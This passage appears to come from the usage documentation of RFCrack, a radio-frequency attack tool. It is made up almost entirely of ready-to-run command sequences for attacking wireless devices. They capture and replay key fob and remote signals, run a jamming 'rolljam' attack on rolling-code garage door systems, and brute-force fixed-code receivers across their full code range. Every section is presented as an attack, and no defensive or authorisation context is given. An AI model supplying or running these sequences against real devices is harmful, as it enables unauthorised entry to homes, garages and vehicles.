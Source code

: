 ### Basic Usage

#### Signal Capture and Replay

```bash
# Launch RFCrack
python RFCrack.py

# Enter interactive mode
set interactive

# Configure frequency for common IoT devices
set freq 433000000

# Start signal capture
set mod ASK_OOK
startrecord

# After capturing the signal (e.g., pressing a remote button)
stoprecord
replay
```

#### Rolling Code Analysis

```bash
# For garage doors and similar systems
set jam true
set mod ASK_OOK
set freq 315000000
rolljam
```

### Common Attacks

#### Simple Key Fob/Remote Replay

```bash
# Configure for typical key fob frequency
set freq 433920000
set mod ASK_OOK
set baud 4800

# Capture and replay
startrecord
# (Activate target device)
stoprecord
replay
```

#### Automated Signal Brute Force

```bash
# For simple fixed-code systems
set freq 433920000
set mod ASK_OOK
fuzz --start 000000 --end FFFFFF
```
